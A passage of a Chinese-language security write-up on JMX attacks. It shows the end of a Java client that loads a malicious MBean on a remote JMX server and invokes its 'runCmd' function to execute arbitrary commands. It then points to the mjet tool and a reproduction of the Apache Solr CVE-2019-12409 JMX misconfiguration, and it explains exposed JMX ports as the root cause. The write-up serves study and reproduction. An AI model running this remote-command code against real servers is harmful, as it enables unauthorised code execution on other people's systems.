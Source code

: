 ```java
                Object nextObject = iterator.next();

                if(nextObject instanceof Exception){

                    throw ((Exception)nextObject);

                }

                evil_bean = ((ObjectInstance)nextObject);

            }

            //调用恶意 MBean 中用于执行命令的函数

            System.out.println("Loaded class: " + evil_bean.getClassName() + "--- object: " + evil_bean.getObjectName());

            System.out.println("Calling runCommand with: " + command);

            Object result = mBeanServerConnection.invoke(evil_bean.getObjectName(), "runCmd", new Object[]{command}, new String[]{String.class.getName()});

            System.out.println("Result: " + result);

        }catch (Exception e){

            e.printStackTrace();

        }

    }

}

```

当然，用现成的工具他不香吗?个人觉得这个jython版的mjet挺好用的： https://github.com/mogwailabs/mjet

### 案例

这是最近（19年）爆出的一个apache solr的jmx配置错误导致的漏洞（其实就是默认开启了jmx端口）

这篇文章我放在另外一个项目里了，只是简单的复现：

https://github.com/Maskhe/vuls/tree/master/apache_solr/cve-2019-12409

### 其他

jmx的安全问题不复杂，主要就是对外开放了jmx端口,所以，就这么简单带过吧,see you~

